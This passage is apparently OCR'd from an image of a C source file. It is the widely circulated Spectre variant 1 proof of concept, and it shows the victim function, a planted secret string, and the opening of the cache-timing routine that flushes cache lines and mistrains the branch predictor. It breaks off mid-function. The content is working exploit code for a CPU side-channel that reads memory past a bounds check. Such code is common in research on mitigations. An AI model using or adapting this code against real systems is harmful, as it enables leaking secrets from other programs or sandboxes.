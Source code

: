 ```c
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#ifdef _MSC_VER
#include <intrin.h> /* for rdtscp and clflush */
#pragma optimize("gt", on)
#else
#include <x86intrin.h> /* for rdtscp and clflush */
#endif

/*******************************************************************************
Victim code
*******************************************************************************/
unsigned int array1_size = 16;
uint8_t unsued1[64];
uint8_t array1[16] = {1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16};
uint8_t unused2[64];
uint8_t array2[256 * 512];

char *secret = "The Magic Words are Squeamish Ossifrage.";

uint8_t temp = 0; /* To not optimize out victim_function() */

void victim_function(size_t x) {
    if (x < array1_size) {
        temp &= array2[array1[x] * 512];
    }
}

/*******************************************************************************
Analysis code
*******************************************************************************/
#define CACHE_HIT_THRESHOLD (80) /* cache hit if time <= threshold */

/* Report best guess in value[0] and runner-up in value[1] */
void readMemoryByte(size_t malicious_x, uint8_t value[2],
                    int score[2]) {
    static int results[256];
    int tries, i, j, k, mix_i, junk = 0;
    size_t training_x, x;
    register uint64_t time1, time2;
    volatile uint8_t *addr;

    for (i = 0; i < 256; i++)
        results[i] = 0;
    for (tries = 999; tries > 0; tries--) {
        /* Flush array2[(0..255) * 512] from cache */
        for (i = 0; i < 256; i++)
            _mm_clflush(&array2[i * 512]); /* clflush */

        /* 5 trainings (x = training_x) per attack run (x = malicious_x) */
        training_x = tries % array1_size;
        for (j = 29; j >= 0; j--) {
            _mm_clflush(&array1_size);
            for (volatile int z = 0; z < 100; z++) {
            } /* Delay (can also mfence) */

            /* Bit twiddling to set x = traingin_x if j % 6 != 0
             * else x = malicious_x */
            /* Avoid jumps in case those tip off the branch predictor */
            /* Set x = FFFFFFFFFFFF0000 if j % 6 == 0, else x = 0 */
            x = ((j % 6) - 1) & ~0xFFFF;
            /* Set x = -1 (0xFFFFFFFFFFFFFFFF) if j % 6 == 0, else x = 0 */
```